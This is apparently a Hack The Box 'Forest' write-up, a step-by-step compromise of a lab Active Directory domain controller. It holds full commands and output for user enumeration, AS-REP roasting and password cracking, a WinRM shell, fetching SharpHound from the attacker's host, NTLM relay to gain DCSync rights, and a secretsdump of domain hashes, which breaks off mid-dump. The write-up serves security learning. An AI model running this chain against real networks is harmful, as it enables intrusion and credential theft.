

# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# nmap -sC -sV -A -p- 10.10.10.161
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-15 10:27 +08
Stats: 0:00:40 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 65.22% done; ETC: 10:28 (0:00:14 remaining)
Nmap scan report for 10.10.10.161
Host is up (0.0048s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-07-15 02:35:03Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/15%OT=53%CT=1%CU=39946%PV=Y%DS=2%DC=T%G=Y%TM=62D0D0F
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=
OS:A)OPS(O1=M550NW8ST11%O2=M550NW8ST11%O3=M550NW8NNT11%O4=M550NW8ST11%O5=M5
OS:50NW8ST11%O6=M550ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=200
OS:0)ECN(R=Y%DF=Y%T=80%W=2000%O=M550NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S
OS:+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%
OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m53s, deviation: 4h02m31s, median: 6m52s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2022-07-15T02:36:05
|_  start_date: 2022-07-15T02:33:18
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2022-07-14T19:36:04-07:00

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   3.81 ms 10.10.14.1
2   4.16 ms 10.10.10.161

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.42 seconds
```

There seems to be a `smb` server running! Lets try using `smbclient` to connect.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# smbclient -L 10.10.10.161              
Password for [WORKGROUP\root]:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Unfortunately, there seems to be nothing.

Next, lets try `rpcclient`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

>   Side note: we can actually use `enum4linx` to automate `SMB/SAMBA/CIFS` enumeration! OwO
>
>   ```bash
>   ┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
>   └─# enum4linux -a 10.10.10.161
>   ...
>    =======================================( Users on 10.10.10.161 )=======================================
>   ...
>   user:[Administrator] rid:[0x1f4]
>   user:[Guest] rid:[0x1f5]
>   user:[krbtgt] rid:[0x1f6]
>   user:[DefaultAccount] rid:[0x1f7]
>   user:[$331000-VK4ADACQNUCA] rid:[0x463]
>   user:[SM_2c8eef0a09b545acb] rid:[0x464]
>   user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
>   user:[SM_75a538d3025e4db9a] rid:[0x466]
>   user:[SM_681f53d4942840e18] rid:[0x467]
>   user:[SM_1b41c9286325456bb] rid:[0x468]
>   user:[SM_9b69f1b9d2cc45549] rid:[0x469]
>   user:[SM_7c96b981967141ebb] rid:[0x46a]
>   user:[SM_c75ee099d0a64c91b] rid:[0x46b]
>   user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
>   user:[HealthMailboxc3d7722] rid:[0x46e]
>   user:[HealthMailboxfc9daad] rid:[0x46f]
>   user:[HealthMailboxc0a90c9] rid:[0x470]
>   user:[HealthMailbox670628e] rid:[0x471]
>   user:[HealthMailbox968e74d] rid:[0x472]
>   user:[HealthMailbox6ded678] rid:[0x473]
>   user:[HealthMailbox83d6781] rid:[0x474]
>   user:[HealthMailboxfd87238] rid:[0x475]
>   user:[HealthMailboxb01ac64] rid:[0x476]
>   user:[HealthMailbox7108a4e] rid:[0x477]
>   user:[HealthMailbox0659cc1] rid:[0x478]
>   user:[sebastien] rid:[0x479]
>   user:[lucinda] rid:[0x47a]
>   user:[svc-alfresco] rid:[0x47b]
>   user:[andy] rid:[0x47e]
>   user:[mark] rid:[0x47f]
>   user:[santi] rid:[0x480]
>   ...
>   ```

Nice! We can view the list of users. Lets take note of these users!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# cat users.txt  
Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Now, lets use `Impacket`'s `GetNPUsers` script to query users that does not require Kerberos preauthentication so that we can grab their TGTs (Ticket Granting Tickets) to crack.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# impacket-GetNPUsers -h
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

usage: GetNPUsers.py [-h] [-request] [-outputfile OUTPUTFILE] [-format {hashcat,john}] [-usersfile USERSFILE] [-ts]
                     [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address]
                     target

Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for
cracking

positional arguments:
  target                domain/username[:password]

options:
  -h, --help            show this help message and exit
  -request              Requests TGT for users and output them in JtR/hashcat format (default False)
  -outputfile OUTPUTFILE
                        Output filename to write ciphers in JtR/hashcat format
  -format {hashcat,john}
                        format to save the AS_REQ of users without pre-authentication. Default is hashcat
  -usersfile USERSFILE  File with user per line to test
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target
                        parameters. If valid credentials cannot be found, it will use the ones specified in the
                        command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in
                        the target parameter

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -usersfile users.txt -no-pass -format john    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:83eaf6df5506cbe209f4d3744cbb1735$fe1cf464a1e1f3bbc427008aa534c6ea07f89bb358102603af3d45db64968517df07f0d2914442647686ec4fa3a41d5f440a2bad6f2e73e15f002c7f83f6f930e04d10a78fd7180673e78c0c3d5e838d25a7e2f0b259a623453f3b89f9423c52eddd6ae02c788ebae6b40bec809593d5a853147b488bca96ba37ba44ce955ab5bcfc755cefcf2c4c7e92ba0a5b2d8327fb737e2bea6b9dbb2be2d8fd50a4efabb9b88544ec6db97c7893e55b128882a29ec1aa014bab005b0fb52213a76c773e37ea9355520737d840c8f28e74ca4d8bb0bdf912cd04940ae5bb034b7b601132d81244c05148
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Yay! We found a hash for the user `svc-alfresco`. Lets save it to a file and run `john`~

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# cat hash.txt                                                            
$krb5asrep$svc-alfresco@HTB.LOCAL:83eaf6df5506cbe209f4d3744cbb1735$fe1cf464a1e1f3bbc427008aa534c6ea07f89bb358102603af3d45db64968517df07f0d2914442647686ec4fa3a41d5f440a2bad6f2e73e15f002c7f83f6f930e04d10a78fd7180673e78c0c3d5e838d25a7e2f0b259a623453f3b89f9423c52eddd6ae02c788ebae6b40bec809593d5a853147b488bca96ba37ba44ce955ab5bcfc755cefcf2c4c7e92ba0a5b2d8327fb737e2bea6b9dbb2be2d8fd50a4efabb9b88544ec6db97c7893e55b128882a29ec1aa014bab005b0fb52213a76c773e37ea9355520737d840c8f28e74ca4d8bb0bdf912cd04940ae5bb034b7b601132d81244c05148
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt               
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:04 DONE (2022-07-15 11:03) 0.2403g/s 982153p/s 982153c/s 982153C/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# Exploit

Now that we have a username and password, what should we do?

Recall that `nmap` showed that port `5985` is open. According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm), we can initiate a `WinRM` session!

Fortunately, there is an easy way to do so using `evil-winrm`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# evil-winrm -h

Evil-WinRM shell v3.4

Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
        --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required if not using kerberos)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -N, --no-rpath-completion        Disable remote path completion
    -l, --log                        Log the WinRM session
    -h, --help                       Display this help message

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

# Privilege Escalation

Before we begin, lets find out more information regarding `svc-alfresco`.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user svc-alfresco
User name                    svc-alfresco
Full Name                    svc-alfresco
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/14/2022 8:20:14 PM
Password expires             Never
Password changeable          7/15/2022 8:20:14 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/14/2022 8:09:19 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Service Accounts
The command completed successfully.
```

Lets use `SharpHound` to gather all the AD information we need from this machine. 

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.161 - - [15/Jul/2022 11:22:07] "GET /SharpHound.exe HTTP/1.1" 200 -

- evil-winrm -
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> powershell -c wget "http://10.10.14.5/SharpHound.exe" -outfile "SharpHound.exe"
```

Now, we can invoke `SharpHound` to collect the necessary data.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> ./SharpHound.exe -c all
2022-07-14T21:52:42.3218832-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-07-14T21:52:42.3218832-07:00|INFORMATION|Initializing SharpHound at 9:52 PM on 7/14/2022
2022-07-14T21:52:42.7437613-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-07-14T21:52:43.1343915-07:00|INFORMATION|Beginning LDAP search for htb.local
2022-07-14T21:52:43.2437697-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-07-14T21:52:43.2593849-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-07-14T21:53:13.8844514-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 46 MB RAM
2022-07-14T21:53:28.1969773-07:00|INFORMATION|Consumers finished, closing output channel
2022-07-14T21:53:28.3376031-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2022-07-14T21:53:28.7594979-07:00|INFORMATION|Status: 162 objects finished (+162 3.6)/s -- Using 46 MB RAM
2022-07-14T21:53:28.7594979-07:00|INFORMATION|Enumeration finished in 00:00:45.6230922
2022-07-14T21:53:29.1501079-07:00|INFORMATION|SharpHound Enumeration Completed at 9:53 PM on 7/14/2022! Happy Graphing!
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> dir


    Directory: C:\Users\svc-alfresco\appdata\local\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/14/2022   9:53 PM          17972 20220714215325_BloodHound.zip
-a----        7/14/2022   9:53 PM          19749 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        7/14/2022   9:51 PM         908288 SharpHound.exe
```

Great! Now that `SharpHound` is done collecting the necessary data, we can transfer the `zip` file back to our terminal using `impacket-smbserver`.

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# impacket-smbserver -h
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

usage: smbserver.py [-h] [-comment COMMENT] [-username USERNAME] [-password PASSWORD] [-hashes LMHASH:NTHASH] [-ts]
                    [-debug] [-ip INTERFACE_ADDRESS] [-port PORT] [-smb2support]
                    shareName sharePath

This script will launch a SMB Server and add a share specified as an argument. You need to be root in order to bind
to port 445. For optional authentication, it is possible to specify username and password or the NTLM hash. Example:
smbserver.py -comment 'My share' TMP /tmp

positional arguments:
  shareName             name of the share to add
  sharePath             path of the share to add

options:
  -h, --help            show this help message and exit
  -comment COMMENT      share's comment to display when asked for shares
  -username USERNAME    Username to authenticate clients
  -password PASSWORD    Password for the Username
  -hashes LMHASH:NTHASH
                        NTLM hashes for the Username, format is LMHASH:NTHASH
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON
  -ip INTERFACE_ADDRESS, --interface-address INTERFACE_ADDRESS
                        ip address of listening interface
  -port PORT            TCP port for listening incoming connections (default 445)
  -smb2support          SMB2 Support (experimental!)

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# impacket-smbserver hound .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.161,55123)
[*] AUTHENTICATE_MESSAGE (\,FOREST)
[*] User FOREST\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa

- evil-winrm -
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> copy 20220714215325_BloodHound.zip \\10.10.14.5\hound\
```

Finally, we can use `BloodHound` to analyse the data. 

>   Note that we have to start a `neo4j console` before we can run `bloodhound`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# neo4j console
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# bloodhound     
...
```

Once `BloodHound` starts, we can upload the `zip` and then analyse the path from `SVC-ALFRESCO@HTB.LOCAL` to `ADMINISTRATOR@HTB.LOCAL`!

>   Remember to mark `SVC-ALFRESCO@HTB.LOCAL` as owned and then right click on `ADMINISTRATOR@HTB.LOCAL` to choose `Shortest Paths to Here from Owned`.
>
>   You may find redundant paths along the way due to some possible remote connection paths. To resolve this, you can just delete the nodes that you deem redundant. 



From the graph, we can see that `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` is what we need to join in order to perform a `WriteDecal`.

Searching `Exchange Windows Permissions Privilege Escalation` results in this interesting [article](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

>   When authentication is relayed to `LDAP`, objects in the directory can be modified to grant an attacker privileges, including the privileges required for `DCSync` operations. Thus, if we can get an Exchange server to authenticate to us with NTLM authentication, we can perform the ACL attack.

To perform the privilege escalation attack, we need create a new user, add it to the `Exchange Windows Permissions` group.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net user shiro password /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net group "Exchange Windows Permissions" shiro /add
The command completed successfully.
```

Now, we have to use `ntlmrelayx.py` and `privexchange.py` to escalate the created user (both are already included in Kali). 

```
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user shiro
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server

[*] Setting up HTTP Server
[*] Servers started, waiting for connections
...
```

From here, we can visit our own server’s URL on a browser at `localhost/privexchange` or `127.0.0.1/privexchange` to login with our newly created account!

Upon logging in, the script will add a `DCSync` privilege to the user.

```
...
[*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
[*] HTTPD: Client requested path: /privexchange
[*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
[*] HTTPD: Client requested path: /privexchange
[*] HTTPD: Client requested path: /privexchange
[*] Authenticating against ldap://10.10.10.161 as \shiro SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
[*] HTTPD: Client requested path: /favicon.ico
[*] HTTPD: Client requested path: /favicon.ico
[*] HTTPD: Client requested path: /favicon.ico
[*] User privileges found: Create user
[*] User privileges found: Modifying domain ACL
[*] Querying domain security descriptor
[*] Success! User shiro now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20220715-115928.restore
[*] Authenticating against ldap://10.10.10.161 as \shiro SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Modifying domain ACL
[-] ACL attack already performed. Refusing to continue
```

Moving on, we can run `secretsdumo.py` (also included in Kali) to dump the domain credentials.

```
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# secretsdump.py -just-dc htb.local/shiro:password@10.10.10.161
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
